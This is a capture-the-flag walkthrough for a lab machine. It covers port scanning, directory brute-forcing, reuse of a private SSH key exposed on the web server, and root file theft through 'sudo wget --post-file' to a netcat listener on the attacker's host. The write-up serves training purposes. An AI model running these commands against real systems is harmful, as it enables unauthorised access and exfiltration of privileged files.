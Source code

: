 question one: User flag

i first started with a nmap scan to the target

nmap -A -sC 10.10.28.198

![](/images/wg.png)

there was 2 open ports
22 ssh and 80 http

lets go see the website this machine is hosting, i type the machine ip into firefox and i get a apache default page

![](/images/wg1.png)

i checked the page source and i saw a possible username "jessie"

![](/images/wg2.png)

i needed to do more enurmation so i used gobuster to find hidden directories in the website

![](/images/cy3.png)

gobuster dir -u http://[ip]/ -w /usr/share/wordlist/rockyou.txt

it found sitemap so i went to check it out

![](/images/cy4.png)

there was nothing in here that was useful so i did more enumeration on sitemap with gobuster but i didnt find anything with gobuster so i used dirb to find hidden directories

dirb http://[ip]/sitemap

![](/images/wg5.png)

it found .ssh within sitemap its pretty interesting lets check it out

![](/images/wg6.png)

it shows the ssh key we can copy the ssh private key to login without a password

![](/images/wg7.png)

lets copy it into a text file and change the permission to 600 because it wont work without a specific permision

nano id_rsa
chmod 600 id_rsa

now we can try to login within ssh

ssh jessie@[ip] -i id_rsa

![](/images/wg8.png)

the user.txt file is in the Documents file

question two: Root flag

time to get root flag, lets start to see what we can run as root without permisions

sudo -l 

![](/images/wg9.png)

we can run wget as root so lets go to the website gtfobins to see what we can do with wget https://gtfobins.github.io/

we look at wget within sudo and we find this

![](/images/wg10.png)

it seems we can set up netcat and we be listining for traffic and we will send data from the victim computer to the hacker computer

we will be setting up netcat 

netcat -lvnp 4444

![](/images/wg13.png)

once that is set up we can send the file to our machine

sudo wget --post-file=/root/root_flag.txt http://[host ip]:4444

![](/images/wg12.png)

once we send it we will recieve it through our netcat and we will see the flag

![](/images/wg14.png)

you have have got the root flag! we did ittt. thank you for reading 



